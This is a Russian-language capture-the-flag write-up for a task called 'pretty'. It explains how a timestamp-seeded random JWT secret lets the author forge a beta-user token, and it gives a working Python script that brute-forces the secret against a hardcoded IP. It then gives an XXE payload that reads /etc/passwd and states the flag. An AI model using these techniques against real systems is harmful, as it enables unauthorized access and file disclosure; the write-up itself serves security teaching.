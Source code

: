 # pretty

Смотрим исходники, замечаем интересный путь /pretty_xml:
```python
@app.route("/pretty_xml", methods=["GET", "POST"])
@is_beta_allowed
@increase_counter(REQUESTS_COUNTER)
@ip_stats_mw(ip_stats_lock, ip_stats)
def pretty_xml():
    pretty_format = "XML"
    post_url = url_for('pretty_xml')

    if request.method == "POST":
        ugly_data = ""
        pretty_data = ""
        try:
            ugly_data = request.form.get("ugly_data")

            root = etree.fromstring(ugly_data)
            etree.indent(root, space="  ", level=0)
            pretty_data = etree.tostring(root, encoding='unicode')
        except Exception as e:
            print(e)
            pretty_data = "Errors in ugly data, check formatting"
        finally:
            return render_template("pretty.html",
                                   pretty_format=pretty_format,
                                   post_url=post_url,
                                   ugly_data=ugly_data,
                                   pretty_data=pretty_data)

    return render_template("pretty.html", pretty_format=pretty_format, post_url=post_url)
```  
Путь доступен только бета юзерам, которые определяются с `@is_beta_allowed` декоратора:
```python
def is_beta_allowed(f):
    @functools.wraps(f)
    def wrapper(*args, **kwargs):
        cookies = request.cookies
        try:
            decoded = jwt.decode(cookies["bc"], secret, algorithms=["HS256"])
            if not decoded["is_beta"]:
                return f(*args, **kwargs)
        except (KeyError, DecodeError):
            return redirect(url_for("not_beta", view=request.path))

        return f(*args, **kwargs)

    return wrapper
```  
Декоратор проверяет jwt токен записанный в куки с названием 'bc', если токен подписан с помощью `secret`, то пропускает дальше, в нашем случае в `/pretty_xml`.  
Смотрим как генерируется `secret` в secret.py:  
```python
import datetime
import random
import string

random.seed(int(datetime.datetime.utcnow().timestamp()))
secret = ''.join([random.choice(string.ascii_lowercase + string.ascii_uppercase + string.digits) for i in range(32)])
```

Генерируется он достаточно просто, сначала устанавливается seed для генератора случайных чисел с помощью random.seed, в качестве сид числа берется unix timestamp времени в момент выполнения кода по UTC. Дальше формируется строка из 32 случайно выбранных символа.
Вспоминаем, что сервис отображает на время "стабильной работы" на главной странице, а значит мы можем посчитать, когда был запущен сервис и сгенерироован secret, узнав unix timestamp запуска сервиса, мы сможем повторить генерацию секрета с нужным сидом, после чего мы без проблем сможем создать нужный jwt токен и подставить его в куки 'bc'.  
Далее код, генерирующий нужный jwt токен:
```python
import datetime as dt
from uuid import uuid4
import requests as reqs
import string
import random

import jwt

url = "http://194.26.138.228:5000/pretty_xml"

stats_time = "19:05:54 26.10.23"
run_time = 3

s_datetime = dt.datetime.strptime(stats_time, "%H:%M:%S %d.%m.%y").replace(tzinfo=dt.timezone.utc).timestamp()
start_timestamp = int(s_datetime) - int(run_time)

for i in range(10):
    random.seed(start_timestamp)
    secret = ''.join(
        [random.choice(string.ascii_lowercase + string.ascii_uppercase + string.digits) for i in range(32)]
    )

    token = jwt.encode({"uid": str(uuid4()), "is_beta": True}, secret, algorithm="HS256")
    cookies = {
        "bc": token
    }

    resp = reqs.get(url, cookies=cookies)
    if "beta" not in resp.text:
        print("START_TIMESTAMP:", start_timestamp)
        print("SECRET:", secret)
        print("TOKEN:", token)
        break

    start_timestamp -= 1
```

Код делает 10 попыток с разными секретами, каждый раз уменьшая сид на 1, т.к. между генерацией секрета и запуском сервиса могло пройти пару секунд(в реальности интервал редко превышал 1 секунду).

Вывод кода выше(может у вас отличаться):
```commandline
START_TIMESTAMP: 1698347150
SECRET: 5r3BX9ptFC99ayj05WG1xyX04j43W1S4
TOKEN: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1aWQiOiJmZGRlM2ZhNS03NmFkLTQwMWItOGJiNi0xNWZhYzA2NzMzMDUiLCJpc19iZXRhIjp0cnVlfQ.fRtVOdIT67IE0ZjnhvQVkUvoUXambnVeKInOecv_HZI
```

Подставляем токен в куки нашего браузера для удобства решения и получаем доступ к `/pretty_xml`.
Для чего же нам нужен был доступ к `/pretty_xml`? Хэндлер pretty_xml() содержит одну критическую уязвимость. При форматировании XML он дополнительно 'рендерит' его, что позволяет нам, например, подставить в итоговый XML любой файл хранящийся на сервере. Делается это с помощью вот такого пейлоада:  
```xml
<!DOCTYPE foo [  
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]><foo>&xxe;</foo>
```
Это пейлоад эксплуатирует [XXE](https://habr.com/ru/companies/vds/articles/454614/) уязвимость. Отправляем его, получаем флаг:    
<img src="images/writeup0.png" width="512"/>

Полный скрипт решающий таску можете найти в [solve.py](solve.py), в `stats_time` - подставьте строку времени с фронта сервиса, в `run_time` - целое число секунд "стабильной работы сервиса".  

`flag: surctf_secret_is_not_s3cret_if_u_kn0w_t1mestamp`
